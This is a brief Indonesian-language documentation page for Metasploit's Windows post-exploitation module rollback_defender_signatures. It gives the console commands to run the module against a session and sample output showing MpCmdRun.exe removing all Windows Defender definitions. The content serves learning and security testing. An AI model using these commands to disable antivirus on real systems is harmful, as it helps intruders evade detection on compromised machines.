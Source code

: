 # rollback_defender_signatures

Modul `rollback_defender_signatures` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengembalikan (rollback) definisi atau signature Windows Defender ke versi sebelumnya.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/rollback_defender_signatures
set SESSION <ID>
set VERBOSE true
rollback
```

Hasil output-nya seperti ini:

```
[*] program_path = C:\Program Files
[*] file_path = C:\Program Files\Windows Defender\MpCmdRun.exe
[*] Removing all definitions for Windows Defender
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
[*] 
Service Version: 6.1.7600.16385
Engine Version: 1.1.6402.0
AntiSpyware Signature Version: 1.95.191.0

Starting engine and signature rollback to none...Done!
[*] Post module execution completed
```
